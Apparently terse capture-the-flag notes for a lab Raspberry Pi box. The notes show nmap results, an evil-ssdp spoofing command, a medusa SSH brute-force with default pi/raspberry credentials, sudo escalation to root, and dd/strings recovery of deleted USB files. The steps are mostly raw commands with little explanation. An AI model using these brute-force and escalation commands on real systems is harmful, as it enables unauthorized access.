

PORT      STATE SERVICE VERSION                                                
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:                                                                 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76                                           
| dns-nsid:                                                                    
|_  bind.version: dnsmasq-2.76                                                 
80/tcp    open  http    lighttpd 1.4.35
| http-methods:                                                                
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.35                                          
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1562/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:                                                                   
| HTTP/1.1 401 Unauthorized\x0D                                                
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex                                                           
|_http-title: Unauthorized                                                     
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

By requesting content from 127.0.0.1 an attacker can bypass all authentication

and execute commands with administrative privileges.

git clone https://gitlab.com/initstring/evil-ssdp

./evil_ssdp.py tun0 -t xxe-smb

Pi-hole Version v3.1.4 Web Interface Version v3.1 FTL Version v2.10

medusa -h 10.10.10.48 -u pi -p raspberry -M ssh

ssh login

pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ sudo su

root@raspberrypi:/home/pi# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...

root@raspberrypi:/home/pi# cd /media/usbstick/
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James

https://unix.stackexchange.com/questions/288059/how-can-i-safely-recover-deleted-data-from-a-usb-flash-drive

root@raspberrypi:/media/usbstick# mount | grep usb
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)

dd if=/dev/sdb of=usb.img
20480+0 records in
20480+0 records out
10485760 bytes (10 MB) copied, 0.204967 s, 51.2 MB/s

sudo mount usb.img ./mount

strings usb.img